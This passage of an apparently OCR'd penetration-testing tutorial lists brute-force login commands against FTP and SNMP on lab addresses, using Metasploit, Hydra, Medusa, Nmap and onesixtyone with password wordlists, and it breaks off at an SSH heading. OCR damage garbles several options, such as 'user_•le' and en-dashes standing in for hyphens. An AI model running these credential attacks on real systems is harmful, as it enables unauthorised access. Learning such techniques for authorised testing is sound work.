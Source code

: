 ```
use auxiliary/scanner/ftp/ftp_login
msf exploit (ftp_login)>set rhosts 192.168.1.103 (IP of Remote Host)
msf exploit (ftp_login)>set user_•le /root/Desktop/user.txt
msf exploit (ftp_login)>set userpass_•le /root/Desktop/pass.txt
msf exploit (ftp_login)>set stop_on_success true
msf exploit (ftp_login)> exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV6A9hponxo72TInpoYiclx2XCSiafPpg5Efo6CSZQjAClzE1DuGlib3ScQ/640?wx_fmt=png)

### SNMP 

#### Hydra

> **hydra -P /root/Desktop/pass.txt 192.168.1.125 snmp**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVWTVG9iaSsl6QxiaTicTDVcyUMkib7uQZkY21RVqQfib6YmOpDc541xN2QKg/640?wx_fmt=png)

#### Medusa

> **medusa -M snmp –h 192.168.1.125 –u ignite –P /root/Desktop/pass.txt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVxE9RAzz836tJnjZzs6x9EvbFw92ibMBs4M9jjwcK2umUFULr75VwmiaA/640?wx_fmt=png)

#### Metasploit

```
use auxiliary/scanner/snmp/snmp_login
msf auxiliary(scanner/snmp/snmp_login)> set rhosts 192.168.1.125 (IP of Remote Host)
msf auxiliary(scanner/snmp/snmp_login)> set pass_•le /root/Desktop/pass.txt
msf auxiliary(scanner/snmp/snmp_login)> set stop_on_success true 
msf auxiliary(scanner/snmp/snmp_login)> run
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVicqSG3AXIstjAzyFKOPRjytHf5icIcgq1q2zD02f95HiaGLQ3HHuNvKWg/640?wx_fmt=png)

#### Nmap

> **nmap –sU –p 161 –n –script snmp-brute 192.168.1.125 –script-args snmp- brute.communitiesdb=/root/Desktop/pass.txt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVFWFL0Jm3YxzvIVZIFbbV1BgaKXOibosvmgswwdGl69MCeYxiciaAYnGGg/640?wx_fmt=png)

#### Onesixtyone

> onesixtyone 192.168.1.125 –c /root/Desktop/pass.txt

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV3g8x5VuGazuMu9CgetKJgbBfkMuvDN8nUp5TAabGSZkbKXxsR4RkmQ/640?wx_fmt=png)

### SSH

#### Hydra
